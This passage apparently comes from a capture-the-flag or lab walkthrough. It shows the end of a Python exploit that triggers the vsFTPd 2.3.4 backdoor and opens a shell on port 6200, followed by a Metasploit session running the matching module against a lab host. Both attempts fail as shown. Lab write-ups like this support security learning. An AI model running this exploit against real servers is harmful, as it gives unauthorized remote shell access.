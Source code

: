 ```python
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

Let's try to run this exploit. And a badluck, it didn't work.🥲
But no worries, we still got one exploit left in our quiver. Let's give it a try.

```bash
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor 
[*] Using configured payload cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
